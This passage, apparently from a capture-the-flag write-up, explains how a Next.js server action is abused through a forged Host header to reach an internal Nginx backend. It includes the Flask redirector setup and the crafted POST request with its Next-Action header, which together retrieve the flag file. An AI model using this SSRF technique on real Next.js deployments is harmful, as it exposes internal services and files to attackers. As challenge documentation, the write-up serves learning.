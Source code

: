 What this does is catch any request and if it is HEAD, it responds with the text/x-component Content-Type, which NextJS is expecting. Then, any other request is simply redirected to the Nginx backend to try and grab the flag. If you're interested in the technical details of the exploit, I highly recommend reading the disclosure by Assetnote, but basically, we can abuse the `Host` header to make the server action request any arbitrary host. It first starts with a `HEAD` and expects `text/x-component`, and then if that succeeds, it makes a `GET` request to the same URL and responds with the content of that `GET` request. All I need to do now is expose a port to the internet (I just used PrivateInternetAccess VPN with port forwarding) and start the Flask application on that port:

```
`flask run --port=35162 --host=0.0.0.0`
```

Lastly, just one modified request via Burpsuite :)

```
POST /logout HTTP/1.1
Host: <VPN-IP>:35162
Content-Length: 4
Next-Action: c3a144622dd5b5046f1ccb6007fea3f3710057de
Connection: close

{}
```

And the response to that request contains the contents of `/usr/share/nginx/html/flag.txt` being served on `http://backend/flag.txt`!